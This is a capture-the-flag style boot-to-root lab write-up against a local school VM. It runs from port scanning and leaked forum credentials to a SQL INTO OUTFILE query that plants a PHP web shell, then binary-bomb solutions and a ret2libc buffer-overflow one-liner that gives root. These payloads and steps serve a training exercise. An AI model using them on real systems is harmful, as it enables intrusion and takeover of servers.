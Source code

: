 # Main way #1 (Straightforward approach)

## Intro

Following these instructions will take you on the next journey from dirt to riches (or from boot to root, actually):

![Main way #1](https://drive.google.com/uc?export=view&id=1x2MbWmjvXU4UcTLUOiahc21gpoFvElbx)

## Breaking in

Since bridged adapter is blocked in the school - I setup kali linux vm and boot-to-root vm through host-only adapter.
I created local network through **VirtualBox->File->Host network manager**, and it's ip **192.168.56.1/24**.
Now, there is a local network with kali vm, boot-to-root vm and host computer.
And kali will see only host computet and boot-to-root vm.
My kali linux ip is 192.168.56.101 (through **ip a**).
And we need to find out how can we interact with boot-to-root vm. For this I check all available ports im my local network with **nmap 192.168.56.1-225**

For only one non host port in my local network I received:
```
Nmap scan report for 192.168.56.102
Host is up (0.0010s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

So boot-to-root vm running on 192.168.56.102 ip, and have few open ports.

On http there is site, which is pretty empty, I check it html source code and there is nothing interesting in it. 
After that I scanned it with **skipfish -o path_to_save http://192.168.56.102** and **nikto -h http://192.168.56.102**, and not found thomething interesting.

There is another open port which could be scanned, it's https.
using **nikto -h https://192.168.56.102** we recieve few interesting dirs: **forum, webmail, phpmyadmin**

On forum there are 4 topics and only one is iteresting, topic **Probleme login** where user **lmezard** push logs with attempts to log in.

In these logs we can see, what username lmezard used trying to log in, it's **"Failed password for invalid user 'username'"** 
And there is interesting username in string **"Failed password for invalid user !q\]Ej?\*5K5cy\*AJ"**
And, these characters came up for lmezard password.

In lmezard profile we could see his email, so we go to webmail, and try the same password **!q\]Ej?\*5K5cy\*AJ** to his mail. And it's fits again.

In mail there is message **DB Access** which contains **Use root/Fg-'kKXBj87E:aJ$ .** It doesn't fit to ssh and ftp connection, but it's fit to phpmyadmin.

First of all I checked all tables in db, but all users passwords hashed and I didn't find any helpful information.
And another way to get access to server - is SQL injection through which you can access the shell.
**(detailed articles about SQL injections https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/ https://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)**

```
SELECT  '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/hack.php'
```
templates_c - dir which always need write permission, used for compiled templates. I found it through **dirbuster** and brute force dirs to write access.

After that we can run something like this **https://192.168.56.102/forum/templates_c/hack.php?cmd=pwd** and it will show pwd output **/var/www/forum/templates_c **

After a little research, we can see LOOKATME dir in home dir with other users (I used curl because of more convenient output):
```
curl --insecure 'https://192.168.56.102/forum/templates_c/hack.php?cmd=ls%20-la%20/home' (--insecure because of https not safe)
drwxrwx--x 9 www-data             root                 126 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 200 Apr 16 04:01 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
```

There is file password in LOOKATME dir, which contains **lmezard:G!@M6f4Eatau{sF"**

This password fit to ftp port, which contains README file - "Complete this little challenge and use the result as password for user 'laurie' to login in ssh", and fun file (which need to be solved).
(command 'get' to receive files through ftp)

### lmezard
File fun is archive (I found out it because of '0ustar' mark in file).
After unzipping **(tar -xf fun)**
There is a folder **ft_fun** with a lot of pcap files.

These files have c code, and comments which number/line it has.
So we need to write script which will correct concat them into c file.
We can use our "build_program.py" script inside this folder to get full program.
Compile and run "prog.c". Got "Iheartpwnage" password and advice to use sha-256.

### laurie
```
echo -n "Iheartpwnage" | shasum -a 256
```
Now we can connect throught ssh to laurie with "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4" password.
There is bomb here. Bomb contains of 6 phases. We should input correct key in each stage.

gdb bomb

    disas main
    disas phase_1
    x/1cs 0x80497c0
    "Public speaking is very easy."

    disas phase_2
    Program expects 6 numbers. First is 1, and every number = prev * (index(cur) + 1)
    "1 2 6 24 120 720"

    disas phase_3
It is very difficult to read this asm code. And We downloaded cutter to decompile bomb.
```
scp -P 2222 laurie@127.0.0.1:bomb ./
```
Yeah, this way is much better.
We see switch-case condition here and there are several correct combinations.  
"0 q 777"  
"1 b 214"

phase_4  
Recursive function, which returns sum of calls this function with num - 1 and num - 2. If num < 2 function returns 1. We need 55.  
1 -> 1  
2 -> 2  
3 -> 3  
4 -> 5  
5 -> 8  
6 -> 13  
7 -> 21  
8 -> 34  
9 -> 55  
"9" is solution.

phase_5  
So we will have some sex with bytes here.
We shoud get word "giants". Program expects 6 charachters.
Logical AND with 0xF uses for each inputed character, and then get this num as index of "isrveawhobpnutfg" array.
So we need indexes: 15 0 5 11 13 1.
Look at ascii table and get characters which hexadecimal second digit are f, 0, 5, b, d, 1. It is "opekmq".

phase_6  
Program expects 6 numbers.
Inside program is array with numbers 253 725 301 997 212 432.
There are 4 cycles here.  
First checks that each number is unique and 1 <= n <= 6.  
Second and third build new array from program's array with inputed indexes.  
Fourth checks that new array is sorted.  
So we need numbers "4 2 6 3 1 5".

README says to remove spaces when we have FULL the password. Ok, lets concatenate all strings and remove spaces.
"Publicspeakingisveryeasy.126241207201b2149opekmq426135". This is password for thor. (Look at "135" at the end. It is soooo crazy-making!)

### thor
Use our "parse_turtle_steps.py" script and look at word "SLASH".
```
md5 -s SLASH
```
"646da671ca01bb5d84dbb5fb2238dc8e" is password for zaz.

### zaz
You can see expolit_me file there. This program takes argument and prints it. With decompiled code we can see that there is only 140 bytes buffer inside main. And strcpy is uding here. Excellent opportunity to overflow buffer and use ret2lib exploit.

We need to know system command adress and '/bin/bash' string address.

gdb exploit_me

    break main
    run
    print &system                           > 0xb7e6b060 > '\xb7\xe6\xb0\x60'
    find &system, +9999999, "/bin/sh"       > 0xb7f8cc58 > '\xb7\xf8\xcc\x58'


Now we can run this command
```
./exploit_me $(python -c "print('a' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'dumm' + '\xb7\xf8\xcc\x58'[::-1])")
```

Whaaat is going on? Whoami? A im root! System has been hacked. **You are root now!**

Description of ret2lib exploit.
https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf

Gdb useful things.
https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
